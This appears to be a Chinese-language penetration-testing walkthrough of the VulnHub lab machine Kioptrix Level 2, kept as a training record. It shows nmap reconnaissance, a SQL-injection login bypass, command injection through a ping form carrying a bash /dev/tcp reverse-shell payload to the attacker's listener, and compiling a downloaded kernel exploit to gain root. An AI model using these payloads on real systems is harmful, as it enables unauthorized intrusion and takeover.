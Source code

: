 # 环境

来自[Kioptrix_leve_2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.networkName = "Bridged"`改成`nat`

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240615161156785](image/image-20240615161156785.png)

## 端口收集

```bash
sudo nmap -sT -r -p- 192.168.88.26
```

![image-20240615161246068](image/image-20240615161246068.png)

## 详细服务查询

```bash
sudo nmap -sV -p22,80,111,443,631，804,3306 192.168.88.26
```

攻击面80>443>3306>22

![image-20240615161920349](image/image-20240615161920349.png)

# web渗透

## 远程命令getshell

访问80，发现是一个登录页面，可以考虑一下万能密码，或者爆破，试了一下万能密码`' or 1=1 -- +`，居然成功，说明有Sql注入点，443就没有什么东西

![image-20240615162844529](image/image-20240615162844529.png)

登录进去之后，发现这个执行ping命令的操作，可以考虑远程命令执行，成功

![image-20240615162804727](image/image-20240615162804727.png)

![image-20240615162754412](image/image-20240615162754412.png)

我们尝试反弹shell，payload=`|bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`，进行监听`nc -lvvp 8888`

![image-20240615164311407](image/image-20240615164311407.png)

## 提权

首先查看linux系统和内核信息

```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
cat /etc/*release
CentOS release 4.5 (Final)
searchsploit kernel 2.6 centos 4
```

![image-20240615210631491](image/image-20240615210631491.png)

找到比较接近的提权脚本，传给靶机进行编译运行，kali使用python开启http服务，靶机进行wget操作

```bash
gcc 9479.c -o exp
chmod 755 exp
./exp
```

成功提权root

![image-20240615211027499](image/image-20240615211027499.png)
